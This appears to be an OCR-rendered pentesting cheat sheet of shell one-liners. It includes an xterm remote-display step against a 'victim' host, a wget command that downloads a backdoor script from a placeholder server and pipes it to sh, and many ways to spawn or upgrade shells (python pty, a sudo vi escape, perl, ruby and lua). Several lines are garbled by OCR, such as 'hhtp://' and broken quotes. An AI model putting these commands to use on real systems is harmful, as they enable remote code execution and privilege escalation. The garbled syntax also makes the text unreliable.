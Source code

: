 ### Xterm command

```text
xterm -display 10.0.0.1:1
o Start Listener: Xnest: 1
o Add permission to connect: xhost +victimP
```

### Other

```text
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

### spawn shell


```text
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

or

```
sudo - I
python -c 'import pty; pty. spawn("/bin/bash”)’
sudo -u webadmin vi
ESC +:+ !/bin/sh
bash - i
whoami
```

```text
try ctrl + z
stty raw -echo 
fg
```

```text
echo os.system('/bin/bash')
```

```text
/bin/sh -i
```


```text
perl —e 'exec "/bin/sh";'
```

```text
perl: exec "/bin/sh";
```

```text
ruby: exec "/bin/sh"
```

```text
lua: os.execute('/bin/sh')
```
